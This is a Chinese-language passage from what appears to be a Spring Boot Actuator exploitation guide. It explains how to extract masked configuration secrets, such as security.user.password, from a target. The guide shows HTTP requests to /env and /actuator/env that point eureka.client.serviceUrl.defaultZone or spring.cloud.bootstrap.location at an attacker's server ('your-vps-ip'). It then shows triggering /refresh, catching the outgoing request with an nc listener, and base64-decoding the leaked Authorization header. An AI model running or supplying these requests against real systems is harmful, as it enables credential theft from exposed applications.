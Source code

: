 spring 2.x
```
POST /actuator/env
Content-Type: application/json

{"name":"eureka.client.serviceUrl.defaultZone","value":"http://value:${security.user.password}@your-vps-ip"}
```

4. 刷新配置

spring 1.x
```
POST /refresh
Content-Type: application/x-www-form-urlencoded
```

spring 2.x
```
POST /actuator/refresh
Content-Type: application/json
```

5. 解码属性值

正常的话， nc 监听的服务器会收到目标发来的请求，其中包含类似如下 `Authorization` 头内容：

```
Authorization: Basic dmFsdWU6MTIzNDU2
```

将其中的 dmFsdWU6MTIzNDU2 部分使用 base64 解码，即可获得类似明文值 value:123456 ，其中的 123456 即是目标星号 * 脱敏前的属性值明文。

![](https://gitee.com/ryuzusunc/archives/raw/master/img/netflix-eureka-client获取脱敏信息.png)

### 设置属性获取脱敏信息

**利用条件**

- 通过 POST /env 设置属性触发目标对外网指定地址发起任意 http 请求
- 目标可以请求攻击者的服务器（请求可出外网）

**利用方法**

1. 找到想要获取的属性名

GET 请求目标网站的 /env 或 /actuator/env 接口，搜索 `******` 关键词，找到想要获取的被星号 * 遮掩的属性值对应的属性名。

2. NC监听HTTP请求 

在自己控制的外网服务器上监听 80 端口：

```
nc -lvk 80
```

3. 触发对外HTTP请求

- spring.cloud.bootstrap.location 方法（**同时适用**于明文数据中有特殊 url 字符的情况）

spring 1.x
```
POST /env
Content-Type: application/x-www-form-urlencoded

spring.cloud.bootstrap.location=http://your-vps-ip/?=${security.user.password}
```
